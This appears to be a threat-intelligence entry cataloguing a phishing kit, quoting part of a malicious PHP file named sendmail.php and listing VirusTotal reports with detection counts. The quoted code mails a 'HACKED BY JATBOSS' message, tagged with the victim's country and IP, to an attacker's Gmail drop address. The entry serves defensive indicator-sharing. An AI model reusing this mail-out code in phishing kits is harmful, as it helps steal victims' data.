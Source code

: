$message .= "|----------- HACKED BY JATBOSS --------------|\n";
$send = "jatboss6@gmail.com";
$subject = "$country | $ip";
{
mail("$send", "$subject", $message);   
}


?>
* [Other] text: PHP
* [Payload delivery] filename: sendmail.php
* [Other] text: Malicious

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-05-16T08:54:33
* [Payload delivery] link: https://www.virustotal.com/file/f2676b94952018c220ee352b9857bc5ad62195b2d15cdfaf54fa5c5985d6934a/analysis/1557996873/
* [Payload delivery] text: 1/56

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-05-13T02:37:30
* [Payload delivery] link: https://www.virustotal.com/file/56a73192c75130550294b327b36c051841d3780bd3732b410e0c190db6f9d936/analysis/1557715050/
* [Payload delivery] text: 0/58

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-05-13T02:37:43
* [Payload delivery] link: https://www.virustotal.com/file/28f73ae365bde8c03d0f93ef73f71c086a026ac58f72b82bb2384c3a5ab42d02/analysis/1557715063/
* [Payload delivery] text: 2/59

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-05-15T17:45:13
* [Payload delivery] link: https://www.virustotal.com/file/0fb825db2262d98e29846fa67171e3450666af9c0a6c31eaf8d7c84539be9132/analysis/1557942313/
* [Payload delivery] text: 1/54

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-05-16T09:42:04
* [Payload delivery] link: https://www.virustotal.com/file/9c4f9755fc183f6ad4ad4d600a0a3ed9230900152245f924b9106202ce543c58/analysis/1557999724/
* [Payload delivery] text: 10/61

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-05-15T20:41:35
* [Payload delivery] link: https://www.virustotal.com/file/c052025b442995f04a68b1b6b2007c36dbf47448c08dc249219a7f3eebd369c2/analysis/1557952895/
* [Payload delivery] text: 1/60

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-05-13T02:37:29
* [Payload delivery] link: https://www.virustotal.com/file/ddcf49145d8c78198138a488b7f99bb4f760777be41b293138e4d5b531cebc73/analysis/1557715049/
* [Payload delivery] text: 0/58
